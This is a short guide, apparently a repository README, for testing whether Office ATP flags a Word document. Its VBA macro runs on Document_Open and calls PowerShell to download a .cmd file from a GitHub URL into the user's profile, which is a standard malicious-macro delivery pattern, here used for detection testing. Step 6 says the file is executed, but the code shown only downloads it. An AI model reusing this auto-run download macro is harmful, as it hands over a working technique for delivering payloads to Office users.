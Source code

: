 # Trigger Office ATP using Word macro

1. Open ```%AppData%\Microsoft\Templates\Normal.dotm```
2. Open **Visual Basic Editor** with ```Alt+F11```
3. Double-click **ThisDocument** under **Project (Document1)** to open the macro editor
4. Paste in the example Macro below
5. At the top of Visual Basic Editor, select **Save Document1** and select type as **Word Macro-Enabled Document**
6. This should be sufficient to trigger Office ATP, but if you would like to test then you can double-click **.docm** - this will trigger a download from GitHub, execute as a batch file, and open a message box.

```
Private Sub Document_Open()

Dim com As String
Dim des As String
Dim path As String

com = "powershell -noexit -Command (Invoke-WebRequest 'https://raw.githubusercontent.com/milesgratz/PowerShell/master/TriggerOfficeATP_mkdir_example.cmd' -OutFile "
des = Environ("USERPROFILE")
path = com & des & "\\TriggerOfficeATP_mkdir_example.cmd)"

Shell ("powershell -noexit -Command " & path)
MsgBox "This document is running a macro to try to trigger Defender ATP... check your userprofile for a created file...."
End Sub
```

## References

https://emptydc.com/2019/08/02/what-does-office-atp-safe-attachments-actually-block/

## Credits
Largely ~~stolen~~ inspired by [Jan Geisbauer's example on emptydc.com](https://emptydc.com/2019/08/02/what-does-office-atp-safe-attachments-actually-block/) project.  
